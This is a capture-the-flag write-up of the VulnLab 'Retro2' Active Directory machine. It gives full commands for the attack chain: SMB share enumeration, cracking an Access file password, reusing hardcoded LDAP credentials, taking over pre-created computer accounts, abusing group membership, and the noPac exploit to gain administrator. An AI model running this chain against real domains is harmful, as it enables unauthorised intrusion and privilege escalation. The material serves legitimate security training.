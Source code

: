 ```yaml
---
title: VulnLab -- Retro2 Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ACLs,pre2k]
image:
    path: images/retro2-banner.png
---
```

# Retro2

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro2** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro2-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 139,49173,5722,135,49154,3269,389,9389,636,464,3389,49155,49157,3268,49158 --min-rate=1000 10.10.103.242
```

![image.png](../images/retro2.png)

Now let’s enumerate the shares on the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares
```

![image.png](../images/retro2%201.png)

> We see we have access to a share named Public
> 

Now let’s try to access the share

```bash
smbclient \\\\retro2.vl\\Public -U "retro2.vl\guest"
```

![image.png](../images/retro2%202.png)

and we got access to two folders DB and TEMP

let’s go to the DB folder and see it’s content

```bash
cd DB
```

![image.png](../images/retro2%203.png)

we found an access document so let’s go download it and open it

```bash
get staff.accdb
```

![image.png](../images/retro2%204.png)

now let’s open the access file

![image.png](../images/retro2%205.png)

> Since the access file have a password let’s crack it
> 

First get the password hash

```bash
office2john staff.accdb > crackme.txt
```

![image.png](../images/retro2%206.png)

Now let’s crack the password

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/retro2%207.png)

we got the password for the office file which is class08

let’s go and open it again

![image.png](../images/retro2%208.png)

> We found a VB script that is making ldap query with hardcoded username and password
username: retro2\ldapreader
password: ppYaVcB5R
> 

Now let’s see if they are working!

```bash
nxc smb retro2.vl -u ldapreader -p ppYaVcB5R
```

![image.png](../images/retro2%209.png)

Yeah they did now let’s get all the users in the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares --users --rid-brute 10000
```

![image.png](../images/retro2%2010.png)

now save the output and let’s extract the usernames

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro2%2011.png)

Now let’s get a bloodhound

![image.png](../images/retro2%2012.png)

now let’s open bloodhound and search for any interesting attack vector 

![image.png](../images/retro2%2013.png)

we didn’t find anything so let’s try to search for pre created computer accounts

```bash
nxc smb retro2.vl -u 'fs01$' -p 'fs01' 
```

![image.png](../images/retro2%2014.png)

Now let’s change it’s password

```bash
impacket-changepasswd retro2.vl/FS01$:fs01@10.10.103.242 -altuser ldapreader -altpas ppYaVcB5R
```

![image.png](../images/retro2%2015.png)

now let’s see what this computer can do

![image.png](../images/retro2%2016.png)

notice that our computer have generic write over another computer so let’s reset the ADMWS01 computer password

```bash
net rpc password ADMWS01$ -U retro2.vl/'FS01$'%'remo123$' -S 10.10.103.242
```

![image.png](../images/retro2%2017.png)

now let’s check if the password is changed!

```bash
nxc smb retro2.vl -u 'ADMWS01$' -p 'remo123$'
```

![image.png](../images/retro2%2018.png)

yes it changed so let’s go back to bloodhound and see what we can do now

![image.png](../images/retro2%2019.png)

> Out computer object can add a member to the service group
> 

Now let’s add the ldapreader to the service group

```bash
bloodyAD --host bln01.retro2.vl -d retro2.vl -u "ADMWS01$" -p "remo123$" add groupMember "SERVICES" "ldapreader"
```

![image.png](../images/retro2%2020.png)

Now since ldapreader is now member of the services group let’s see what this group can do

![image.png](../images/retro2%2021.png)

> Notice that the members of the services group can RDP to the machine
> 

Let’s RDP to the machine

```bash
xfreerdp /u:ldapreader /p:ppYaVcB5R /d:retro2.vl /v:10.10.103.242 /cert-ignore /tls-seclevel:0
```

![image.png](../images/retro2%2022.png)

Now let’s exploit the noPac bug to get admin privilege

```bash
python noPac.py retro2.vl/ldapreader:'ppYaVcB5R' -dc-ip 10.10.103.242 -shell --impersonate administrator -use-ldap
```

![image.png](../images/retro2%2023.png)

and we got admin privilege

so let’s go to the admin desktop and see the flag

```bash
dir c:\users\administrator\desktop
```

![image.png](../images/retro2%2024.png)

Amazing we got the root flag 🥳

![image.png](../images/retro2%2025.png)

That’s it for the **Retro2** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT